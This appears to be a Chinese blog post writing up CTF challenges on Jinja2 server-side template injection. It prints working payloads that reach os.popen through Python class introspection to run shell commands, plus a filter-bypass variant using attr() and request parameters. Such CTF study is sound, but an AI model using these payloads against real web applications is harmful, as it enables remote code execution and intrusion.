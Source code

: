 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - SSTI
---
```

# 老题新做,梦开始的地方
## 手工遍历的菜鸡，像极了当初的自己
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）  
这道题什么都没有过滤  
ls的payload:
```
{% raw %}{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}{% endraw %}
```
为了防止忘了，还是把每个指令的作用记录一下
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作。'os'所在的'site._Printer'是78个，所以用77
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
这个题不能用下面的request的方法，会直接跳过{{}}，因为是不是`/msg={{}}`，而是`/{{}} ` 
`ls`查看的是当前目录
![ls当前目录](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
看到了fl4g文件  
`ls /`查看的是根目录
![根目录文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E6%A0%B9%E7%9B%AE%E5%BD%95.png)
因为已经看到flag了，所以用`pwd`查看绝对路径，看看flag到底在哪个文件，假装自己遍历了
![在404](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/pwd.png)
竟然在一个叫404的文件夹下面，刚开始还以为是url里的404  
`ls /404`可以看到flag文件
![看到了flag文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
最后用`cat fl4g`读取文件
![flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/flag.png)
## 都0202年了，遍历这事还是写程序吧

# XCTF mine1_1
这道题大括号里过滤了`_` `[]` `''` `""`以及`args`  
如果只过滤`[]`的话，payload长这样：
```
{% raw %}{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read(){% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
这CTF打的，我渗透我自己  
解决办法  
{% assign openTag = '{%' %}
```
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```
{% raw %}{{ openTag }} raw %}{% endraw %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
打`{% raw %}{{ openTag }} raw %}{% endraw %}`的时候差点又忘了刚学的`{{ openTag }} raw %}`了，吐了吐了
